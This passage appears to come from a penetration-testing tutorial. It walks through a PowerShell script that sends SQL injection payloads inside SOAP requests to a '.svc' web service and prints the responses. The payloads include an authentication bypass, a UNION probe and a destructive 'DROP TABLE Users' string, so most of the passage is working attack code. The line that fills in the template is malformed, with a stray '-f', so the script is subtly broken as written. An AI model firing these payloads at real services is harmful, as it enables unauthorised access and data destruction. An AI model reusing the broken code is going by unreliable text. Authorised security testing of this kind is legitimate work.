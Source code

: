 ### 5.2.2 Example Script for SQL Injection Testing
Let’s expand on the example provided earlier, where we automate SQL injection testing on a `.svc` file.

#### Step 1: Define the Target
Set the target service URL:

```
$uri = "http://<target_ip>:<target_port>/Service.svc"
```

#### Step 2: Define Payloads
Create a list of payloads that you want to test. These can include various SQL injection strings or other malicious inputs:

```
$payloads = @(
    "1' OR '1'='1", 
    "admin'--", 
    "' OR 1=1--", 
    "'; DROP TABLE Users;--", 
    "' AND 1=0 UNION SELECT NULL,NULL,NULL,NULL--"
)
```

#### Step 3: Define the SOAP Request Template
Since you’ll be sending SOAP requests, you need a template that you can dynamically modify with different payloads:

```
$soapTemplate = @"
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.example.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:MethodName>
         <web:parameter>{0}</web:parameter>
      </web:MethodName>
   </soapenv:Body>
</soapenv:Envelope>
"@
```

Here, `{0}` is a placeholder that PowerShell will replace with each payload.

#### Step 4: Automate the Interaction
Loop through each payload, replacing the placeholder in the SOAP request with the actual payload, and send the request:

```
foreach ($payload in $payloads) {
    $soapBody = -f $soapTemplate -replace "{0}", $payload

    try {
        $response = Invoke-WebRequest -Uri $uri -Method POST -Body $soapBody -ContentType "text/xml"
        Write-Host "Response for payload `$payload`:"
        Write-Host $response.Content
    }
    catch {
        Write-Host "Error encountered with payload `$payload`: $_"
    }
}
```
